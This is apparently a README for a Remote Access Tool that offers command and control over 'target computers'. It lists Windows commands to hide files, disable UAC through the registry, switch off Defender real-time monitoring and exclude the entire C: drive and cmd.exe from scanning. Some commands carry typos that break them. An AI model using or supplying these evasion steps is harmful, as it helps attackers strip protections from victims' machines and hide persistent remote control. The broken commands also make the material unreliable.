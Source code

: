 This is a Remote access tool [RAT] that provides command and control [C2] of the target computers

## Resources
'''
#show files
attrib -h -s -r FILE
    
#hide file
attrib +h +s +r FILE

#disable uac with powershell
Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name EnableLUA -Value 0


## exclusion path
'''
Set-MpPreference -DisableRealTimeMonitoring true
Add-MpPreference -ExclusionPatch c:\
Add-MpPreference -EsclusionProcess c:\windows\system32\cmd.exe

'''
